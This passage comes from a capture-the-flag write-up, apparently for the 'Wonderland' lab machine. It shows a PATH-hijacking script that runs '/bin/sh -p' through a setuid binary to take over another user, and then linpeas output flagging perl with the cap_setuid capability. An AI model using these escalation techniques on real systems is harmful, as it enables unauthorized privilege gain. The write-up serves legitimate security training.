 Now let's see if the funtionality of the teaParty binary has changed:

```bash
rabbit@wonderland:/home/rabbit$ teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
Ask very nicely, and I will give you some tea while you wait for him
```

Awesome we can change the execution of the binary! (see how the uid is now saying we are effectively the hatter).

## Creating a dash shell

now instead of id, lets create an exploit to run sh with the -p flag to maintain permissions:

```bash
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash
/bin/sh -p
```


And now running teaParty will make me the hatter:
```bash
rabbit@wonderland:/home/rabbit$ teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by $ whoami
hatter
```

Searching the hatter's home directory I find that there is a password for him inside a file which I am able to use to switch to the hatter (instead of just having the effective uid of the hatter.

# Privilege Escalation 3


The final part of the puzzle is seeing that perl has the CAP_SETUID capability set(identified using linpeas).

```bash
Files with capabilities (limited to 50):                                                                                                                                                      
/usr/bin/perl5.26.1 = cap_setuid+ep                                                                                                                                                           
/usr/bin/mtr-packet = cap_net_raw+ep                                                                                                                                                          
/usr/bin/perl = cap_setuid+ep        
```

While this was actually discovered back when I first got on the box, I could see that I was going to need to find a way to become the hatter before exploiting it.

```bash
rabbit@wonderland:/home/rabbit$ ls -la /usr/bin/perl
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
rabbit@wonderland:/home/rabbit$ ls -la /usr/bin/perl5.26.1
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1
```
